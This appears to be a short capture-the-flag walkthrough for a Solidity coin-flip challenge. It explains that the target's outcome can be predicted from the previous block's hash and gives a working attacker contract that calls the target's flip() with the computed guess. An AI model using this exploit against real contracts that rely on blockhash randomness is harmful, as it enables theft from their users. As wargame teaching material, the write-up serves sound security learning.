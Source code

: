 * Run this code. Get the guess value and call the `flip()` method. As the
  `block.number` is same inside `attack()` and `flip()` methods we can
  correctly guess the value. We can't use for loop to guess this ten times
  because the if condition inside will check if the last hash is same as the
  current one or not. So we need to run `attack()` method 10 times to create 10
  transactions.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

interface ICoinFlip {
  function flip(bool _guess) external returns (bool);
}
contract Attack {
    using SafeMath for uint256;

    constructor() public{}

    function attack(address _coinFlip) public returns (bool){
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 value = blockValue.div(FACTOR);
        bool guess = value == 1 ? true : false;
        bool result = ICoinFlip(_coinFlip).flip(guess);
        return result;
    }
}
```
